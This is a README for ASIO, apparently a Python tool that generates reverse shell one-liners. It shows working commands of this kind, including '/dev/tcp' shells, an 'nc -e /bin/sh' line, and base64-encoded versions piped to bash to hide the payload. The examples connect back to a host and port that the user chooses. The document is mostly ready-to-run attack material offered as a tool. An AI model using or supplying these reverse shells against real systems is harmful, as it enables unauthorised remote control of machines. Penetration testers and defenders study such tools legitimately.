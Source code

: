 <p align="center">
<img src="icon.png">
</p>

# ASIO
## Description
ASIO (All Shell In One) is a tool written in Python3 that generates reverse shells. It has the ability to **cast a one liner that uses all the available reverse shell techniques**

## Usage
```
usage: asio.py [-h] -H HOST -P PORT [-A] [-B]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Hostname or IP of the server
  -P PORT, --port PORT  Port of the server
  -A, --all             Use this argument to generate a full one liner to try all the reverse shell possible.
  -B, --base64          Encode all the reverse shells in base64 and build a one liner to execute the decoded string
```
## Examples

### Generate multiple reverse shells
Command:
```
./asio.py -H 127.0.0.1 -P 8080
```
Output:
```
 sh in dev tcp 
 sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

 exec sh in dev tcp 
 0<&196;exec 196<>/dev/tcp/127.0.0.1/8080; sh <&196 >&196 2>&196
 ```

### Generate multiple reverse shells encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B
```
Output:
```
 sh in dev tcp 
echo IHNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84MDgwIDA+JjE= | base64 -d | bash

exec sh in dev tcp 
echo IDA8JjE5NjtleGVjIDE5Njw+L2Rldi90Y3AvMTI3LjAuMC4xLzgwODA7IHNoIDwmMTk2ID4mMTk2IDI+JjE5Ng== | base64 -d | bash
```

### Generate one liner with all the available teqniques encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B -A
```
Output:
```
 All in one
echo KCBzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjE<more base64> | base64 -d | bash
```


## Add presonalized reverse shells
 - Edit the `personal_shells.txt` file
 - Use the following syntaxt: `Name of the Revere Shell | Reverse Shell Code`
 - Use `{HOST}` and `{PORT}` as a placeholders for address and port variables.

### Example
`sh in dev tcp | sh -i >& /dev/tcp/{HOST}/{PORT} 0>&1`

`netcat -e | nc -e /bin/sh {HOST} {PORT}`

